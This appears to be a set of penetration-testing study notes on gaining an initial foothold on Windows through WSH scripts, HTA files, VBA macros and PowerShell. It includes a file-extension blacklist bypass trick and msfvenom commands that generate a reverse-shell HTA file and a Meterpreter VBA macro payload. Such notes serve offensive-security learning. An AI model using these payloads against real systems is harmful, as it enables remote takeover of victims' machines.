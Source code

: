 ```yaml
---
title: Windows initial foothold notes
---
```


- [1. Windows Scripting Host (WSH)](#1-windows-scripting-host-wsh)
- [2. HTML Application (HTA)](#2-html-application-hta)
- [3. Visual Basic for Application (VBA)](#3-visual-basic-for-application-vba)
- [4. Powershell script](#4-powershell-script)

## 1. Windows Scripting Host (WSH)

WSH is language-independent technology to run scripts written in Active Scripting languages. It's old and available on every Windows machine by default. Users can install different scripting engines to support different scripting languages (e.g. PerlScript, RubyScript).

Engines to run JScript (`.js` file) and VBScript (`.vbs` file) are installed by default. Administrator can also use `.wsf` file (_Windows Scripting File_) in order to mix different scripting languages in one scripting file. Windows OS runs scripts with the same level of access and permission as a regular user.

> **TRICK**: VBScript file might be renamed to `example.txt` and executed using the following command: `wscript /e:VBScript <path-to-script>`. This trick can bypass file extension blacklists.

```powershell
# Console application
cscript <path-to-console-script>

# Window application
wscript <path-to-window-script>
```

## 2. HTML Application (HTA)

HTA is a Windows program whose source code consists of HTML, CSS and one or more scripting languages supported by WSH - JScript and VBScript. Actually it works like a Windows program with GUI written in HTML and logic written in scripting language. Because it's executed locally, it's often used as a GUI for administration tools. The usual HTA file extension is `.hta`.

HTAs are interpreted by mshta.exe (LOLBin) after double clicking. Under the hood it is rendered by Internet Explorer (officially: _Trident_ engine, called _MSHTML_ as well) browser engine even if IE is not installed in the OS (still works in Windows 11).

HTAs files often can be executed immediately after download. Because of that they are used to establish reverse shell by attackers. `msvenom` and `msfconsole` have a generators of HTA rev-shell files.

```bash
# Generate malicious HTA file
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o rev-shell.hta
```

## 3. Visual Basic for Application (VBA)

VBA is almost the same as Visual Basic but its main purpose is to automate tasks in Microsoft Office applications (Word, Excel, PowerPoint, Outlook etc.). It cannot work independently. Macros are written in VBA. They can be combined with HTA and WSH methods to bypass more detection softwares.

```bash
# Generate malicious VBA macro payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f vba
```

## 4. Powershell script

PS execution policy is by default set to `Restriced`. It means that user can execute single commands but not to run any PS script (`.ps1` file).

```powershell
# Check current execution policy
Get-ExecutionPolicy

# Change current execution policy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
